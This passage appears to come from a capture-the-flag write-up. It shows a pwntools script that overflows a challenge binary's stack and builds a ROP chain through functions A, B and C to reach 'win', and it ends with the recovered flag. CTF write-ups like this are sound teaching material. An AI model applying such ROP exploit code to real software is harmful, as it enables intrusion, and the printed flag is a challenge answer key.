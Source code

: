 ```py
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

rop = ROP(exe)

payload = flat({
    0x70 + 8: [
        exe.sym['A'],
        exe.sym['B'],
        rop.find_gadget(['pop rdi', 'ret'])[0],
        0xdeadbeef,
        exe.sym['C'],
        exe.sym['win'],
        ],
    })

io.sendlineafter(b"uwu owo rawrxd\n", payload)

io.interactive()
```

## Flag

```
maple{w-wop_is_pwetty_coow}
```
